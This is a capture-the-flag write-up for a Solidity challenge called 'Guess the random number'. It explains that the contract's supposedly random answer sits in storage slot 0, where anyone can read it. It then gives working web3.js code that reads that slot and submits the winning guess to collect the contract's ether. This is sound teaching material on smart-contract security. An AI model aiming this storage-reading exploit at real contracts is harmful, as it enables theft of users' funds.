 # 05. Guess the random number

This time the number is generated based on a couple fairly random sources.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract GuessTheRandomNumberChallenge {
    uint8 answer;

    function GuessTheRandomNumberChallenge() public payable {
        require(msg.value == 1 ether);
        answer = uint8(keccak256(block.blockhash(block.number - 1), now));
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## Vulnerability

This one is a little bit more tricky as the answer is computed pseudo randomly with `answer = uint8(keccak256(block.blockhash(block.number - 1), now));`.
We known `block.number - 1` as it is nothing but the previous block number, but we cannot infer or manipulate `now` unless we are a miner...

Since that contract generates the value when `GuessTheRandomNumberChallenge` is called, but only check it later on inside `guess` it must store that value somewhere.
The answer is stored in storage slot 0, which can be read by anyone :

```js
// Read storage slot 0 of our contract which contains the answer
const answer = await web3.eth.getStorageAt(contract, 0);

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "guess",
    type: "function",
    inputs: [
      {
        type: "uint8",
        name: "n",
      },
    ],
  },
  [answer]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: contract,
  data: data,
  value: web3.utils.toWei("1", "ether"),
});
```